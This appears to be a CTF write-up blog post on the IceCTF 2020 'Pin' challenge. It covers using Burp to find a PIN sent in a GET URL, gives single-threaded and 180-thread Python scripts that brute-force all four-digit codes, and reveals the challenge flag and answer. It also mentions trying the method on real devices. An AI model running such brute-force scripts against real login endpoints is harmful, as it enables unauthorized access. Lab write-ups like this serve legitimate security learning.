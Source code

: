 ```yaml
---
layout: post
title: IceCTF 2020 - Multithreading Requests 
image: https://www.ionos.com/digitalguide/fileadmin/DigitalGuide/Teaser/nvme-t.jpg
categories: [CTF]
---
```


IceCTF took place over the weekend and had a range of fun challenges. This writeup will be focussing on the miscellaneous category and the 'Pin' challenge, which involved looking at requests in Burp and multithreading them using Python to brute-force a four digit passcode in a short period of time.

# The Challenge
**Name:** Pin

**Category:** Miscellaneous 


**Points:** 100


**Requirements:** Python, [Burp](https://portswigger.net/burp/communitydownload).


>You are late again, and just can’t remember the PIN code to the locker that has the secret Novichok stuff you need for work. What do you do?

# Initial Analysis
The link in the challenge description takes us to a lockscreen which resembles an iOS one. Immediately I tried entering a bunch of random passcodes such as 1234, 1337 ect. to see if anything in the URL would change (or maybe even luck out and get it through guessing) but as expected, I didn't learn much. I decided to fire up Burp, a tool which allows one to peek at requests and modify them, which gave me a better understanding of what was going on behind the scenes. 

![image](https://i.imgur.com/BZ21cjc.png)

I navigated to the 'Proxy' tab and selected 'Open Browser'. This opens up Chromium which Burp can directly interface with. 'Intercept is on' should be selected by default, which will allow us to stop and modify any requests before they're sent. 

Now that we've got everything we need, we can paste the link into the browser and see what Burp tells us. 

![image](https://i.imgur.com/VcQBa38.png)

First off, since we're only navigating to the home page there's nothing we didn't already know in this request. What we're actually interested in is what happens when we enter in a passcode, so let's try that.

![image](https://i.imgur.com/z3o7mXy.png)

This looks more promising...we can see a GET request to another URL (www.misc-pin.vuln.icec.tf/login/1337) which contains the passcode we just entered. This is great news, as it means we can brute-force it through spamming requests with all 10,000 possible combinations. It'd also be good to see how the website responds to a wrong passcode - we can use Burp's 'Repeater' tool for this. Simply right click the request and select the 'Send to Repeater' option.

![image](https://i.imgur.com/Ym30oug.png)

Navigate to the 'Repeater' tab and click 'Send':

![image](https://i.imgur.com/I0HzeB0.png)

We get some JSON data returned, which is perfect, as it means we can check the response from the website to see if the ``correct`` field is set to true or false when we automate it. 

# Bruteforcing Requests 
We now know that the passcode is being sent to /login/ via a GET request, so all we need to do is write a script that can try every combination. This is where the Python [requests](https://pypi.org/project/requests/) module comes in handy. The following script mimics someone entering in all possible passcodes and analyses the response from the website: 

```python
import requests
  
for pin in range(9999):
    # allows us to try '0001' instead of just '1' as a passcode
    pin = '{0:04}'.format(pin)
    print('Trying: ' + pin)

    # creates a new URL each time with a new passcode to try
    URL = "http://www.misc-pin.vuln.icec.tf/login/" + str(pin)

    # performs a GET request and stores the response in r
    r = requests.get(url = URL)
    temp = str(r.content)
    print(temp)

    # checks if the 'correct' field is set to true
    if 'true' in temp:
        print('FOUND!' + '\nPASSWORD: ' + pin)
        quit()
```

The above is a relatively easy solution that gets the job done...but it's really slow. I left it running, looked at some other challenges and eventually got a match for ``1729`` after 15 minutes. The flag was ``IceCTF{t1mIng_r3al1y_is_everyth1ng_isNt_it}``, which I thought was quite fitting. 

![image](https://i.imgur.com/NalDvt5.png)

Now, it would've been okay to stop here as the challenge was solved and I had the flag, but I knew that there was a much faster way to do this so I looked into multithreading and came across [ThreadPoolExecutor](https://www.tutorialspoint.com/concurrency_in_python/concurrency_in_python_pool_of_threads.htm). Through rewriting the script, I came up with the following: 

```python
from concurrent.futures.thread import ThreadPoolExecutor
from requests import Session, Response
from requests.adapters import HTTPAdapter
from functools import partial
from multiprocessing import Pool
import tqdm
import os

def execute(urls, method, size):
    i = 0
    # creates a new session 
    session = Session()
    session.mount('http://', HTTPAdapter(pool_maxsize = size))

    # creates a worker that calls make_request
    worker = partial(method, session)

    # executes make_request asynchronously with 180 workers
    with ThreadPoolExecutor(size) as pool:

        # creates a progress bar and allows us to check responses 
        for req in tqdm.tqdm(pool.map(worker, urls), total = len(urls)):
            temp = str(req.content)
            if "true" in temp:
                print("\n\nFOUND! Password is: " + str(i))
                print(str(req.content) + "\n")
                quit()
            i+=1
    session.close()

# method we want to multithread
def make_request(session, url):
    return session.get(url)

# generates a list of all 10000 URLs
urls = [("http://www.misc-pin.vuln.icec.tf/login/" + "{0:04}".format(num)) for num in range(9999)]

# kick starts the program with 180 workers
execute(urls, make_request, 180)
```

This cracked the passcode in under 10 seconds (compared to 15 minutes before) and works by doing the previous solution, but much faster through calling ``make_request`` 180 times, rather than just once per iteration of the URL list. The optimised script gets through 1729 requests before the previous one can even do 15. 

The reason I selected ``180`` for the amount of workers is because I found it was a sweet spot in terms of speed for my computer as it started to slow down with anything higher - although I'm sure this will greatly vary depending on a device's CPU. I also added a progress bar using [tqdm](https://github.com/tqdm/tqdm). Here's a time comparison between the two (multithreaded version on the right):

![image](https://i.imgur.com/uDPJldv.gif)

and that's it! Bit of a shorter writeup, but I thought I'd share my solution which I think will come in handy for future challenges. I'm sure there are many other applications of this too (such as cracking passcodes of real devices which use digit combinations and have no retry limit), so that's something I'll be looking into a little more...ethically of course.

# What did I learn?

1) Multithreading in Python. 


2) Multithreading and brute-forcing go hand in hand. 


3) Shorter solutions aren't always better. 
